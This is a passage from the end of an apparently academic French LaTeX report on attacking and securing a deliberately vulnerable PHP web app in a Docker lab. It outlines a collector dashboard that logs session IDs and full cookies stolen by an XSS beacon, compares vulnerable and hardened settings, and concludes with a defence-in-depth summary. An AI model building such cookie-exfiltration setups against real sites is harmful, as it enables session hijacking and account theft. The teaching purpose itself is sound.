
\includegraphics[width=\linewidth]{photos/attacker-dashboard.png}
\caption{Dashboard \og Evil Control Panel \fg{} — sessions interceptées en temps réel}
\end{figure}

\subsection*{Fonctionnement technique}

\begin{enumerate}
  \item Le payload XSS envoie un \emph{image beacon} vers \file{collect.php}
  \item \file{collect.php} loge le SID, le cookie complet, l'URL victime et l'IP dans SQLite
  \item Le dashboard JavaScript interroge \file{api.php} toutes les 2 secondes
  \item La nouvelle entrée s'affiche en temps réel avec le SID copiable en un clic
\end{enumerate}

\begin{figure}[H]
\centering

\includegraphics[width=0.85\linewidth]{photos/attacker-dashboard-beacon.png}
\caption{Entrée reçue après exécution du XSS — cookie complet exfiltré}
\end{figure}

% ============================================================
\chapter{Comparaison vulnérable vs. sécurisé}
% ============================================================

\section{Tableau récapitulatif des contre-mesures}

\begin{longtable}{@{}p{3.2cm}p{4.5cm}p{4.5cm}@{}}
\toprule
\textbf{Vulnérabilité} & \textbf{App vulnérable} & \textbf{App sécurisée} \\
\midrule
\endhead
Session Fixation &
  \texttt{use\_strict\_mode=0} \newline
  \texttt{use\_only\_cookies=0} \newline
  Pas de \texttt{session\_regenerate\_id()} &
  \texttt{use\_strict\_mode=1} \newline
  \texttt{use\_only\_cookies=1} \newline
  \texttt{session\_regenerate\_id(true)} au login \\[6pt]

XSS Stocké/Réfléchi &
  Données affichées sans échappement \newline
  Pas de CSP &
  \texttt{htmlspecialchars()} sur toutes les sorties \newline
  CSP stricte (\texttt{script-src 'self'}) \\[6pt]

CSRF &
  Pas de token CSRF \newline
  Accepte les paramètres GET &
  Token CSRF par session \newline
  POST uniquement \\[6pt]

Mots de passe &
  Stockés en clair &
  bcrypt (coût 12) + \texttt{password\_verify()} \\[6pt]

Cookies &
  Pas de HttpOnly \newline
  Pas de Secure \newline
  Pas de SameSite &
  \texttt{HttpOnly=true} \newline
  \texttt{Secure=true} \newline
  \texttt{SameSite=Strict} \\[6pt]

Information Disclosure &
  \texttt{X-Powered-By} présent \newline
  SID affiché dans le HTML &
  \texttt{expose\_php=Off} \newline
  Aucun SID exposé \\[6pt]

Détection d'intrusion &
  Aucun logging &
  Audit log structuré \newline
  Fingerprint de session \newline
  Compte honeytoken \\

\bottomrule
\caption{Tableau comparatif des mesures de sécurité}
\end{longtable}

% ============================================================
\chapter{Conclusion}
% ============================================================

Ce projet démontre qu'une chaîne d'attaque complète — de la session fixation au vol de fonds via XSS et CSRF — repose sur l'accumulation de négligences simples : absence de \texttt{session\_regenerate\_id()}, données affichées sans échappement, formulaires sensibles accessibles par GET sans token. Chacune de ces failles est triviale à corriger individuellement, mais leur combinaison produit un impact critique.

La version sécurisée illustre qu'une \textbf{défense en profondeur} (régénération de session, CSP, tokens CSRF, cookies \texttt{HttpOnly}/\texttt{Secure}/\texttt{SameSite=Strict}, bcrypt) neutralise l'ensemble de la chaîne d'exploitation. La sécurité doit être intégrée dès la conception, non ajoutée en correctif.

\bigskip
\begin{center}
\textcolor{comment-gray}{\small\textit{Projet réalisé dans un cadre académique — environnement isolé Docker.\\
Ne jamais reproduire ces techniques sur des systèmes sans autorisation explicite.}}
\end{center}

\end{document}
